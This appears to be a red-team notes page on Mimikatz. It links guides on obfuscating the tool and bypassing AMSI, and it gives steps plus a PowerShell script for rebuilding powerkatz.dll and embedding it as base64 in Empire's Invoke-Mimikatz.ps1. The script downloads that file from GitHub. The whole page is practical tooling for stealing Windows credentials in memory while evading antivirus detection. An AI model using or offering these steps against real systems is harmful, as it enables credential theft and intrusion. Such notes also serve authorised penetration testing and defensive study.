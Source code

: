 # Mimikatz




## Obfuscate Mimikatz

* [https://s3cur3th1ssh1t.github.io/Bypass-AMSI-by-manual-modification-part-II/](https://s3cur3th1ssh1t.github.io/Bypass-AMSI-by-manual-modification-part-II/)
* [https://s3cur3th1ssh1t.github.io/Building-a-custom-Mimikatz-binary/](https://s3cur3th1ssh1t.github.io/Building-a-custom-Mimikatz-binary/)




## Invoke-Mimikatz

* [http://clymb3r.wordpress.com/2013/04/09/modifying-mimikatz-to-be-loaded-using-invoke-reflectivedllinjection-ps1/](http://clymb3r.wordpress.com/2013/04/09/modifying-mimikatz-to-be-loaded-using-invoke-reflectivedllinjection-ps1/)
* [http://www.harmj0y.net/blog/redteaming/mimikatz-and-dcsync-and-extrasids-oh-my/](http://www.harmj0y.net/blog/redteaming/mimikatz-and-dcsync-and-extrasids-oh-my/)

Update the [`Invoke-Mimikatz.ps1`](https://github.com/BC-SECURITY/Empire/blob/master/data/module_source/credentials/Invoke-Mimikatz.ps1) PowerShell script:

1. Grab source code zip from the latest (or anyone you want) [release](https://github.com/gentilkiwi/mimikatz/releases) of Mimikatz.
2. Open the solution in Visual Studio.
3. Select the **Second_Release_PowerShell** target option and compile for  `Win32`.
4. Right-click on `mimikatz` solution > Properties > C/C++ > Set *Treat warnings as errors* to `No (/WX-)` > OK.
5. Compile for `x64`.
6. Transform the resulting `powerkatz.dll`s to a base64 string using `base64 -w 0 powerkatz.dll` on Linux or with a PowerShell script below on Windows.
7. Replace the `$PEBytes32` and `$PEBytes64` strings at the bottom of `Invoke-Mimikatz.ps1` and you're good to go!

```powershell
$powerkatz32 = [System.IO.File]::ReadAllBytes("C:\Users\coder\Downloads\powerkatz32.dll")
$powerkatz64 = [System.IO.File]::ReadAllBytes("C:\Users\coder\Downloads\powerkatz64.dll")
$encPowerkatz32 = [System.Convert]::ToBase64String($powerkatz32)
$encPowerkatz64 = [System.Convert]::ToBase64String($powerkatz64)
IWR https://github.com/BC-SECURITY/Empire/raw/master/empire/server/data/module_source/credentials/Invoke-Mimikatz.ps1 -OutFile Invoke-Mimikatz.ps1
$invokeMimikatz = gc .\Invoke-Mimikatz.ps1
$updInvokeMimikatz = $invokeMimikatz -replace '\$PEBytes32 = .*$', ('$PEBytes32 = ' + "'$encPowerkatz32'")
$updinvokeMimikatz -replace '\$PEBytes64 = .*$', ('$PEBytes64 = ' + "'$encPowerkatz64'") > Invoke-Mimikatz.ps1
```
